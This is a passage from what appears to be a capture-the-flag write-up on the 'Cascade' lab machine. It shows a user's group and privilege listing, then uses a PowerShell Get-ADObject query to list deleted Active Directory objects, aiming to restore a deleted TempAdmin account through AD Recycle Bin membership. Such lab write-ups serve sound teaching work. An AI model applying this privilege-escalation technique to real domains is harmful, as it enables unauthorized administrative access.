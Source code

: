 ```text
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Darn, I expected this user to have **SeBackupPrivilege**. Oh well, so much for the easy win. The group `AD Recycle Bin` looked promising, however. I did some research on this group and found a blog that talked about how to exploit it at [https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/](https://blog.stealthbits.com/active-directory-object-recovery-recycle-bin/).  There was also a bit of interesting trivia included that related to this machine:

> The Active Directory Recycle Bin was introduced in the Windows Server 2008 R2 release.

Using the information in the blog, it looked like I could revive the `TempAdmin` account that I had seen when I enumerated the database, which had been deleted.

```text
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

Running this command from the article returns:

```text
Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
```